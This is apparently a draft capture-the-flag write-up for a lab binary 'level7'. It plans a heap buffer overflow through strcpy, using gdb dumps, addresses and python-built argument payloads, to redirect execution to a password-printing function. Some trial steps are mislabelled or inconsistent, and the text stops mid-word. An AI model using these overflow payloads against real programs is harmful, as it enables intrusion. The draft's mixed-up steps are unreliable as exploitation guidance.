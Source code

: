 Looking at file source, the password is stored in a global variable at the end of main

we will try to overwrite call to function `puts` to call to function `m` to read the global cvariable c

### Lets find the addresse of `puts` and address of `m`

```console
(gdb) x &puts
0xb7e927e0 <puts>:	0x893cec83
```

```console
(gdb) x &m
0x80484f4 <m>:	0x83e58955
```

<!-- 0x8048400 puts plt ???? -->

<!-- Adress of puts plt = `0x8048400` == `\x00\x84\x04\x08` -->

Address of puts = `0xb7e927e0` == `\xe0\x27\xe9\xb7`

Address of m = `0x080484f4` == `\xf4\x84\x04\x08`

### How to overwrite address of puts ?

Through a heap buffer overflow !

```console
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
```

With `argv[1]` we will write in `str1`. we will overflow to write the return address of `main` on address of `str2`

`"A" * 20 + "\xe0\x27\xe9\xb7"`

The second strcpy will write argv[2] on the return address of `main`. This way we can write the address of `m` instead

Lets try to write m at the return address of main

```
(gdb) print $esp
$2 = (void *) 0xbffff710
```

<!-- `0xbffff710` - 3c (60) = `BFFFF6D4` == `\xd4\xf6\xff\xbf` -->

`0xbffff710` == `\x10\xf7\xff\xbf`

### Payload

```
./level7 `(python -c 'print ("A" * 20 + "\return address main")')` `(python -c 'print ("\xf4\x84\x04\x08" * 16)')`
```
try1 with `0xbffff710`

```
./level7 `(python -c 'print ("A" * 20 + "\x10\xf7\xff\xbf")')` `(python -c 'print ("\xf4\x84\x04\x08" * 16)')`
```
`* 152` = valide
`* 153` = segfault

-----------------------------------------------------------

try 2 with `0xbffff70f` (0xbffff710 - 1 ) == `\x0f\xf7\xff\xbf`

```
./level7 `(python -c 'print ("A" * 20 + "\x0f\xf7\xff\xbf")')` `(python -c 'print ("\xf4\x84\x04\x08" * 1)')`
```
`* 1` = segfault

-----------------------------------------------------------------

try 2 with `0xbffff70e` (0xbffff710 - 2 ) == `\x0f\xf7\xff\xbf`

```
./level7 `(python -c 'print ("A" * 20 + "\x0f\xf7\xff\xbf")')` `(python -c 'print ("\xf4\x84\x04\x08" * 2)')`
```


<!-- ```
./level7 `(python -c 'print ("A" * 20 + "\xe0\x27\xe9\xb7")')` `(python -c 'print ("\xf4\x84\x04\x08")')`
```

./level7 `(python -c 'print ("A" * 20 + "\x00\x84\x04\x08")')` `(python -c 'print ("\xf4\x84\x04\x08")')` -->

Lets tr
